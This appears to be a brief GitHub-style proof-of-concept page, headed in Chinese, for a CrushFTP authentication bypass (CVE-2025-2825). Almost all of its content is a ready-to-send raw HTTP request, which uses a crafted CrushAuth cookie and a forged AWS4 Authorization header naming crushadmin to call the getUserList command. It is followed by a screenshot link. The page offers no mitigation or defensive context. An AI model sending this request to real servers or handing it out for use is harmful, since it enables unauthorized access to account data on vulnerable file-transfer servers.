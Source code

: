 
## CrushFTP身份验证绕过(CVE-2025-2825)

## poc
```javascript
GET /WebInterface/function/?command=getUserList&c2f=1111 HTTP/1.1
Host: target-server:8081
Cookie: CrushAuth=1743113839553_vD96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/

```

![image](https://github.com/user-attachments/assets/6d6a18ba-3b8b-4c65-97c0-ad24cb59e1b2)
